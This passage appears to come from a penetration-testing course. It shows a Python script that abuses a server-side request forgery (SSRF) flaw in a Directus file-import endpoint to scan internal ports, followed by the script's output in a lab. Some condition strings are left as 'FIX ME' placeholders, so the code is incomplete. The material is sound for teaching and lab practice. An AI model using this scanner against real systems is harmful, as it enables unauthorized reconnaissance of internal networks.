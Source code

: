 > Listing 28 - SSRF port scanner arguments

For the final part, we'll need a list of ports that we want to scan, using only common services and HTTP ports in this initial scan. We can always expand it later. For each port in our list, we want to send a request via the SSRF vulnerability and inspect the response body. Based on the response messages, we can infer if a port is open and what kind of service might be running on it.

```
ports = ['22','80','443', '1433', '1521', '3306', '3389', '5000', '5432', '5900', '6379','8000','8001','8055','8080','8443','9000']
timeout = float(args.timeout)

for p in ports:
    try:
        r = requests.post(url=args.target, json={"url":"{host}:{port}".format(host=args.ssrf,port=int(p))}, timeout=timeout)

        if args.verbose:
            print("{port:0} \t {msg}".format(port=int(p), msg=r.text))

        if "You don't have permission to access this." in r.text:
            print("{port:0} \t OPEN - returned permission error, therefore valid resource".format(port=int(p)))
        elif "ECONNREFUSED" in r.text:
            print("{port:0} \t CLOSED".format(port=int(p)))
        elif "--------FIX ME--------" in r.text:
            print("{port:0} \t OPEN - returned 404".format(port=int(p)))
        elif "--------FIX ME--------" in r.text:
            print("{port:0} \t ???? - returned parse error, potentially open non-http".format(port=int(p)))
        elif "--------FIX ME--------" in r.text:
            print("{port:0} \t OPEN - socket hang up, likely non-http".format(port=int(p)))
        else:
            print("{port:0} \t {msg}".format(port=int(p), msg=r.text))
    except requests.exceptions.Timeout:
        print("{port:0} \t timed out".format(port=int(p)))
```

> Listing 29 - SSRF port scanner

Let's run the script and check for any other open ports on the server running the Directus APIs.

```
kali@kali:~$ ./ssrf_port_scanner.py -t http://apigateway:8000/files/import -s http://localhost --timeout 5
22       CLOSED
80       CLOSED
443      CLOSED
1433     CLOSED
1521     CLOSED
3306     CLOSED
3389     CLOSED
5000     CLOSED
5432     CLOSED
5900     CLOSED
6379     CLOSED
8000     CLOSED
8001     CLOSED
8055     OPEN - returned permission error, therefore valid resource
8080     CLOSED
8443     CLOSED
9000     CLOSED
```

